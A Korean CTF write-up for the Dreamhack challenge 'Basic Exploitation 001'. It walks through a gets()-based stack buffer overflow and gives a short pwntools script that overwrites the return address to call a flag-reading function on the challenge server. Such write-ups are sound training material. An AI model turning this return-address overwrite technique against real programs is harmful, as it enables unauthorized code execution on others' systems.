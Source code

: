 ```yaml
---
title: "[pwn]Basic Exploitation 001"
excerpt: "Dreamhack Basic Exploitation 001"
category: CTF
tags: [pwnable]
toc: true
toc_label: "Table of Contents"
toc_sticky: true
---
```

1. 환경 확인  
**file** 명령어로 i386, LE 환경인것을 확인한다.

2. code 확인  
~~~
void read_flag(){
    system("cat /flag");
}
int main(int argc, char \*argv[]){
    char buf[0x80];
    initialize();
    gets(buf); // gcc에서도 경고하는 **gets**
    return 0;
}
~~~
코드에서 알수 있듯이 버퍼의 크기는 0x80, **gets()**함수는 입력의 크기를 확인하지 않고 받는다. 따라서 Stack Buffer Overflow를 이용해서 exploit할수 있다.  
심지어 친절하게 **read_flag()**함수를 만들어 두어서 shellcode를 사용하지 않아도 된다.  

3. payload 작성  
메모리를 확인하면 $esp에 0x80 크기의 버퍼를 두고 4byte의 SFP, 그뒤에 main 함수의 ret 주소가 있다.  
따라서 0x84 크기의 dummy와 **read_flag()**의 주소 0x080485B9를 **p32()**를 통해 LE로 넣는다.  

4. script 작성  
~~~
from pwn import *

p=remote('host1.dreamhack.games',22850)
payload=b'A'\*0x84+p32(0x080485B9)
p.sendline(payload)
p.interactive()
~~~
<img width="614" alt="script exec" src="https://user-images.githubusercontent.com/45323902/154212885-17d2fd26-779d-4c41-b2b6-5f87f8eb3a04.png">
